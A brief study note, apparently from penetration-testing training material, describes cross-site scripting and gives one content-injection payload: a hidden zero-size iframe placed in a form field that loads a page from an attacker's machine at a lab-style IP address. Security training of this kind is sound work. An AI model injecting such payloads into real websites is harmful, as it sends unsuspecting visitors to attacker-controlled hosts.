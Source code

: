 ## Cross Site Scripting (XSS)

An attack where JavaScript code can be injected into the DOM of a website through Form Inputs. 


### Content Injection
If a site is vulnerable to XSS, we can inject an iframe into it, and have any person be redirected to our machine on port 80. Example content injection into a form field: 
```
<iframe src=http://10.11.0.4/report height="0" width="0"></iframe>
```

